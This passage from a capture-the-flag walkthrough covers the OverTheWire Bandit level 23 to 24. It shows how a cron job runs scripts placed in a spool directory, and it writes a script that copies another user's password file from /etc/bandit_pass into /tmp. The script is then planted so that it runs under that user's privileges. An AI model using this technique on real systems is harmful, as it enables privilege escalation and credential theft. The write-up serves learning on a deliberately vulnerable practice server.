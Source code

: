 It then handles the file, it extracts the owner with `stat`.
```bash
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
```

Executing that stat command on a file in my home directory, we can see what it does:
```bash
bandit23@bandit:~$ stat --format "%U" ./.bashrc
root
```

So it extracts the user that owns the file.

We then check if the owner is bandit23, if it is we execute the file on a timeout of 60 seconds. The `-s 9` is the signal used to end the process, in this case '9' AKA 'SIGKILL'.
```bash
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
```

Then delete the file:
```bash
rm -f ./$i
```

So, we need to make our own bash script that will be executed!

We can use Vim, nano, emacs, etc to make the file. I'll be using Vim.

I create the file with the following:
```bash
bandit23@bandit:~$ vim /tmp/bandit23_script.sh
```

I then press `i` for insert mode, and start typing this script:
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sealldev_bandit24
```

Then press ESC, then type `:wq` and press enter. (Or just do `ZZ` if you are fancy).

We can validate the contents with `cat`:
```bash
bandit23@bandit:~$ cat /tmp/bandit23_script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sealldev_bandit24
```

We need to make the script executable, so we can use `chmod`:
```bash
bandit23@bandit:~$ chmod +x /tmp/bandit23_script.sh
```

Now we need to make a copy of that script in the `/var/spool/bandit24/foo/`, we can use `cp`:
```bash
bandit23@bandit:~$ cp /tmp/bandit23_script.sh /var/spool/bandit24/foo/
```
